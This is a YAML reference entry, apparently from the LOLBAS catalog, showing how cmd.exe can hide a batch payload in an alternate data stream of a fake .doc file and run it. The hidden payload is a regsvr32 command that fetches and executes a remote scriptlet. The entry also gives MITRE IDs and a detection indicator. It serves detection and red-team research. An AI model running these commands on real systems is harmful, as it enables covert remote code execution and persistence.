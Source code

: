 ```yaml
---
Name: Cmd.exe
Description: The command-line interpreter in Windows
Author: "Ye Yint Min Thu Htut"
Created: "2019-06-26"
Commands:
  - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
    Description: Add content to an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1170
    MitreLink: https://attack.mitre.org/wiki/Technique/T1170
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: cmd.exe - < fakefile.doc:payload.bat
    Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1170
    MitreLink: https://attack.mitre.org/wiki/Technique/T1170
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\cmd.exe
  - Path: C:\Windows\SysWOW64\cmd.exe
Code_Sample:
  - Code:
Detection:
  - IOC: cmd.exe executing files from alternate data streams.
Resources:
  - Link: https://twitter.com/yeyint_mth/status/1143824979139579904
Acknowledgement:
  - Person: r0lan
    Handle: "@yeyint_mth"
---
```

